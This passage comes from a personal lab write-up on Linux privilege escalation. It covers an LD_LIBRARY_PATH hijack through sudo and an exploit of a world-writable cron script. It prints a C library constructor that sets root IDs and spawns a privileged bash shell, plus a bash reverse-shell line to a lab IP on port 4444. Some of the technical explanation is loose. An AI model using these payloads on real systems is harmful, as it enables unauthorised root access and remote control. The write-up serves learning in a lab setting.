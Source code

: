 and the contents of `/home/user/tools/sudo/library_path.c` is

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

basically, these programs run a system call to `/bin/bash` to spawn a shell and since we run it with sudo, we get a root shell

so this is why the process is independent of the library called

## Task 8 - Cron Jobs - File Permissions

so we see that `overwrite.sh` gets executed every minute

oh btw if you have trouble with reading cron job times, visit [crontab guru](https://crontab.guru)

so now, we can exploit this by writing our code in `overwrite.sh` to connect to our local machine, spawn a shell and when it gets executed by the root user, we'll get a shell

in unix systems, opening ports (or sockets? not sure), is done by accessing the protocol and port in `/dev/` like a file (it is called a file descriptor if i'm right)

so, our code would be

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1

```

**explanation:**

* 1st line: shebang to denote interpreter, this case - bash

* 2nd line: `bash -i` to open an interactive shell, `>& /dev/tcp/10.10.10.10/4444` to redirect all streams to our local machine and `0>&1` to redirect **stdin** and **stdout** to **stdout**

so, after editing the code in `overwrite.sh`, we listen on our local machine waiting for a shell
